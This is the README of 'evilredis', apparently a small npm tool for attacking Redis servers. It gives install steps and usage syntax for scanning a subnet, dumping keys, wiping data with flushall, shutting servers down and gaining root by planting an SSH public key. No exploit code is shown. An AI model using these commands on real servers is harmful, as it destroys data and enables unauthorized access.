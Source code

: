 evilredis
=========
Small script for doing evil stuff to Redis servers
(for educational purposes only)

## usage
```
npm install -g evilredis
```
Then:
```
== evilredis >:)

 Syntax:	evilredis [ target ] [ level = 0 ]
 Ex.		evilredis 192.168.0.0/24 1

 - Level 0: quick scan, dump server info & keys
 - Level 1: flushall
 - Level 2: flushall & shutdown
 - Level 3: root >:) (requires a pubkey)

   Specify your pubkey after evilness level
   Example: $ evilredis x.x.x.x 3 ~/.ssh/id_rsa.pub

 USE AT YOUR OWN RISK!
 ```
